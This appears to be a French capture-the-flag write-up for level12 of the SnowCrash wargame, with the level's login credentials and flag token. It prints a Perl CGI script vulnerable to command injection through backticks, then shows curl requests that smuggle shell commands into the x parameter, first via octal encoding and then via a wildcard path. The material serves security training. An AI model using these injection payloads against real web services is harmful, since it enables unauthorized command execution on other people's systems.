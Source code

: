 # LEVEL 00

**LOGIN: level12**

**PASSWORD: fa6v5ateaw21peobuub8ipe6s**

 ----

```
level12@SnowCrash:~$ ls
level12.pl
```

```
level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

Toujours un exploit subshell à cette ligne : ```@output = `egrep "^$xx" /tmp/xd 2>&1`; ```

Mais `$xx` est mise en majuscule puis tronquée au premier espace: 


Premier essaie est de passé une string en octal pour éviter les mofifications

`echo "getflag >/tmp/exploit" > /tmp/1`
```
`curl 192.168.0.15:4646\?x="\`\$'\057\164\155\160\057\061'\`"
```
Il se passe pas grand chose, on a acces aux logs
``` 
tail -f /var/log/apache2/error.log

[error] [client 192.168.0.18] sh: 1: 
[error] [client 192.168.0.18] $\\057\\164\\155\\160\\057\\061: not found
```

Arf le subshell invoqué est `sh`et ne peut pas expand une string octale :((( solution en attente....

Deuxieme technique, on rename le fichier /tmp/1 en /tmp/1111 et on va utiliser un Wildcard pour trouver notre script sans utiliser de lettre : 

`curl 192.168.0.15:4646\?x=/*/1111`

```
cat /tmp/exploit
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

**TOKEN :g1qKMiRpXf53AWhDaU7FEkczr**
